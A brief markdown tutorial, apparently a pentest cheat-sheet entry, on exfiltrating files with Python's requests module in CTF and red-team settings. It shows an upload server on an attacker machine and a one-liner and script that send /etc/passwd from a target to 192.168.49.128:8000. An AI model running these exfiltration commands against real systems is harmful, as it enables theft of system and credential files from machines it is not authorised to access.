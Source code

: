 

Uploading files with Python3 is simple and efficient, thanks to the `requests` module. This is useful for **CTFs, red teaming, incident response, or admin tasks**.

---

## 1. Start the Upload Server (Attacker Machine)

On the **attacker (receiver) machine**:

```bash
python3 -m uploadserver
```

**Output Example:**

```
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

The server is now ready to receive uploads on port **8000**.

---

## 2. Upload a File (Target Machine)

On the **target (sender) machine**, use a Python3 one-liner:

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

This uploads `/etc/passwd` from the **target** to the **attacker’s upload server**.

---

## 3. Full Script Example (Target Machine)

If you prefer a script for clarity:

```python
import requests

# Define target URL
URL = "http://192.168.49.128:8000/upload"

# Open file in binary read mode
file = open("/etc/passwd", "rb")

# Send file
r = requests.post(URL, files={"files": file})
```

**Note:**

- The field name `"files"` must match the expected form field on the server.
    
- If the upload server expects a different parameter (like `"upload"`), change `"files"` to `"upload"`.
    

---

## 4. Use Cases

- Uploading collected data or loot during red team operations
    
- Transferring forensic evidence
    
- Moving configurations during system administration
    
- Automating uploads in custom tools or scripts
    

---